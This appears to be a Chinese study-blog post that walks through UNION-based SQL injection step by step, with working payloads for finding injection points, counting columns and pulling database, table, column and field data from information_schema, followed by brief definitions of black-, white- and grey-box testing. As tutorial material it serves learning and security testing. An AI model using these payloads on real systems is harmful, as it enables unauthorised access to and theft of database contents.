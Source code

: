 title: SQL联合注入
author: liuGuobin
tags:
  - 日报
categories:
  - 日报
date: 2023-03-12 00:47:00
---
### SQL联合注入
#### 表现
有回显且可进行联合查询
#### 原理
SQL中union select查询的方式将结果合在一起，并删除重复的数据。这就是联合查询。
#### 开始注入
1、判断是否存在注入点
（1）修改参数值，查看数据是否改变
（2）插入单、双引号的检测方法，未闭合的单引号会有报错

2、判断注入点是整形还是字符型
（1）数字型：通过
```
and 1=1
```
（2）字符串型：闭合单引号测试语句
```
'and'1'='1
```

3、判断查询列数
```
select username,password from where username='root' and password=123 order by x
```
当输入x报错时，真实的列数是「x-1」
(1)为什么用order by 可以证明前面语句查询了三列数据呢？
&emsp;&emsp;select * from order by (你要按照排序的对象)
&emsp;&emsp;order by可以按照指定的「字段名」排序
&emsp;&emsp;还可以按照「索引」进行排序，索引就是从左至右将列名按照123排序
&emsp;&emsp;对MySQL中查询结果按照指定字段名进行排序，左边第一个字段对应的索引是 1
&emsp;&emsp;当输入的索引溢出时它就会报错。
(2)我们为什么要知道前面查询了多少语句呢？
&emsp;&emsp;因为union前面查询语句查询的元素与后面查询语句查询的元素要在数量上一样
&emsp;&emsp;select 甲,乙,丙 union select 1,2,3
&emsp;&emsp;因为前面查询的语句有三个元素（甲，乙，丙）
&emsp;&emsp;所以后面查询的语句必须是三个元素（1，2，3）

4、找到显示位
```
?id=-1 union select 1,2,3,4,5,6 --+
```
如果在使用UNION SELECT 1,2,3…,11 from table时，网页中显示了信息8
那么说明网页只能够显示第8列中信息，不能显示其他列的信息。
也可以理解为网页只开放了8这个窗口，你想要查询数据库信息就必须要通过这个窗口。
所以如果我们想要知道某个属性的值，比如admin；
就要把admin属性放到8的位置上，这样就能通过第8列爆出admin的信息。
但是为了爆出第一位后面的显示位需要隐藏正常结果
比如将id=1改为id=-1，使union前面的语句报错，执行后面的，爆出显示位

5、利用显示位获取库名
```
select group_concat(SCHEMA_NAME) from information_schema.SCHEMATA
```
在高版本中查询该表就行，具体看上一篇文章。
group_concat()函数将所有查询的库名连在一起成为一条数据
```
?id=-1' union select 1,database(),3 --+
```
假设判断出在2号位显示，那么在二号位换成想插入的SQL语句就行了。
相同的，这里也要让union前面的语句报错，执行后面的。

6、获取表名
```
?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='库名' --+
```
相同的，这里也要让union前面的语句报错，执行后面的。
group_concat()函数将所有查询的表名连在一起成为一条数据

7、查询表中列名
```
?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='users' --+
```
数据库有个information_schema库，里面有个columns表，存有整个数据库的列名。
我们要去查找的列，就是在这个库中去找。

8、获取字段信息
```
?id=-1’ union select 1,group_concat(列名),3 from 库名.表名 --+
```
平平无奇，跟上面的没啥不同，等价于下面这条
```
?id=-1’ union select 1,列名,3 from 库名.表名 limit 0,1 --+
```

#### 联合查询注入是最简单的了，一定要完全看懂

### 黑盒，白盒，灰盒测试
#### 黑盒测试（测试功能）
黑盒测试是以用户的角度，从输入数据与输出数据的对应关系出发进行测试的。
目的是检测程序是否能适当地接收输入数据而产生正确的输出信息。
很明显，如果外部特性本身设计有问题或规格说明的规定有误，用黑盒测试方法是发现不了的。

#### 白盒测试（优化程序）
以开发者的角度，对程序内部细节的严密检验

#### 灰盒测试（修复bug）
多用于集成测试阶段，不仅关注输出、输入的正确性，同时也关注程序内部的情况。
灰盒测试不像白盒那样详细、完整，但又比黑盒测试更关注程序的内部逻辑。
常常是通过一些表征性的现象、事件、标志来判断内部的运行状态。